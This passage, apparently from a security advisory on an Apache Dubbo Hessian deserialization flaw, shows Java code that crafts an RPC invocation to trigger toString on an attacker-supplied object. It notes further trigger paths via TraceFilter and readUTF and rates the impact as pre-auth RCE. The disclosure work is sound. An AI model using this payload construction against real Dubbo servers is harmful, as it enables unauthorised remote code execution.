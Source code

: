 <span class="c1">// 1.dubboVersion</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeString</span><span class="o">(</span><span class="s">"2.7.8"</span><span class="o">);</span>
<span class="c1">// 2.path</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeString</span><span class="o">(</span><span class="no">SERVICE_NAME</span><span class="o">);</span>
<span class="c1">// 3.version</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeString</span><span class="o">(</span><span class="s">""</span><span class="o">);</span>
<span class="c1">// 4.methodName</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeString</span><span class="o">(</span><span class="s">"$echo"</span><span class="o">);</span>
<span class="c1">// 5.methodDesc</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeString</span><span class="o">(</span><span class="s">"Ljava/lang/Object;"</span><span class="o">);</span>
<span class="c1">// 6.paramsObject</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeObject</span><span class="o">(</span><span class="n">toStringBean</span><span class="o">);</span>
<span class="c1">// 7.map</span>
<span class="nc">HashMap</span> <span class="n">attachments</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">HashMap</span><span class="o">();</span>
<span class="n">attachments</span><span class="o">.</span><span class="na">put</span><span class="o">(</span><span class="s">"_isCallBackServiceInvoke"</span><span class="o">,</span> <span class="s">"true"</span><span class="o">);</span>
<span class="n">out</span><span class="o">.</span><span class="na">writeObject</span><span class="o">(</span><span class="n">attachments</span><span class="o">);</span>
</code></pre></div></div>

<p>There may be other places calling the deserialized argument’s <code class="language-plaintext highlighter-rouge">toString</code> method such as in the <code class="language-plaintext highlighter-rouge">TraceFilter</code>:</p>
<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="o">+</span> <span class="s">"("</span> <span class="o">+</span> <span class="no">JSON</span><span class="o">.</span><span class="na">toJSONString</span><span class="o">(</span><span class="n">invocation</span><span class="o">.</span><span class="na">getArguments</span><span class="o">())</span> <span class="o">+</span> <span class="s">")"</span> <span class="o">+</span> <span class="s">" -&gt; "</span> <span class="o">+</span> <span class="no">JSON</span><span class="o">.</span><span class="na">toJSONString</span><span class="o">(</span><span class="n">result</span><span class="o">.</span><span class="na">getValue</span><span class="o">())</span>
</code></pre></div></div>

<p>Also, as explained in <a href="http://www.lmxspace.com/2020/08/24/Apache-Dubbo-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/">this blog post</a> <code class="language-plaintext highlighter-rouge">Hessian2Input.readUTF</code> may lead to <code class="language-plaintext highlighter-rouge">Hessian2Input.readObject</code> and then a call to <code class="language-plaintext highlighter-rouge">toString</code> on the deserialized object. <code class="language-plaintext highlighter-rouge">readUTF</code> is used, for example, <a href="https://github.com/apache/dubbo/blob/master/dubbo-rpc/dubbo-rpc-dubbo/src/main/java/org/apache/dubbo/rpc/protocol/dubbo/DecodeableRpcInvocation.java#L103">to read the dubbo version</a> from the RPC invocation header, so sending the payload as the dubbo version will get it deserialized and triggered.</p>

<h4 id="impact">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">pre-auth RCE</code></p>
